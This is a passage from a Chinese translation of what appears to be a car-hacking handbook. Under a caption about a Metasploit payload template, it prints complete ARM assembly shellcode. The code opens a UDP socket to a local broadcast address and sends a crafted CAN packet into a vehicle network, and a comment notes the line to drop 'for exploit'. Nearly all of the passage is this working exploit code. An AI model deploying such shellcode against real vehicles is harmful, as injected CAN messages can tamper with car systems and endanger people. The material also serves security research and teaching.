 *示例 11-4：使用我们的 shellcode 的 Metasploit 载荷模板*

在示例 11-4 中的`payload`变量 ➊ 会被转换成以下 ARM 汇编代码：

```
      /* Grab a socket handler for UDP */
      mov     %r0, $2 /* AF_INET */
      mov     %r1, $2 /* SOCK_DRAM */
      mov     %r2, $17        /* UDP */
      push    {%r0, %r1, %r2}
      mov     %r0, $1 /* socket */
      mov     %r1, %sp
      svc     0x00900066
      add     %sp, %sp, $12

      /* Save socket handler to %r6 */
      mov     %r6, %r0

      /* Connect to socket */
      mov     %r1, $0x84000000
      add     %r1, $0x4e0000
      add     %r1, $2         /* 20100 & AF_INET */
      mov     %r2, $0xff000000
      add     %r2, $0x450000
      add     %r2, $0xa800
      add     %r2, $0xc0 /* 192.168.69.255 */
      push    {%r1, %r2}
      mov     %r1, %sp
      mov     %r2, $16        /* sizeof socketaddr_in */
      push    {%r0, %r1, %r2}
      mov     %r0, $3 /* connect */
      mov     %r1, %sp
      svc     0x00900066
      add     %sp, %sp, $20

      /* CAN Packet */
      /* 0000 0248 0000 0200 0000 0000 */
      mov     %r1, $0x48000000  /* Signal */
      add     %r1, $0x020000
      mov     %r2, $0x00020000  /* 1st 4 bytes */
      mov     %r3, $0x00000000  /* 2nd 4 bytes */
      push    {%r1, %r2, %r3}
      mov     %r1, %sp
      mov     %r2, $12        /* size of pkt */

      /* Send CAN Packet over UDP */
      mov     %r0, %r6
      push    {%r0, %r1, %r2}
      mov     %r0, $9 /* send */
      mov     %r1, %sp
      svc     0x00900066
      add     %sp, %sp, $12

      /* Return from main - Only for testing, remove for exploit */
      mov     %r0, $0
      bx      lr
```
